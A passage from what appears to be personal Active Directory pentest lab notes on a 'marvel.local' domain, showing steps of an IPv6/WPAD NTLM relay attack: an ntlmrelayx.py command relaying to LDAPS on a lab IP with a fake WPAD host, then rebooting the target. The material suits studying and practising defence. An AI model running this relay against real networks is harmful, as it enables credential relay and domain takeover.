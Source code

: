     2. Run `ntlmrelayx` to forward the intercepted authentication attempts to the LDAP service

    `ntlmrelayx.py -6 -t ldaps://192.168.64.32 -wh fakewpad.marvel.local -l lootme`

    ![ldapsrunning](../assets/img/AD/Screenshot%202024-07-18%20at%2022.21.16.png)

    3. Reboot the target machine
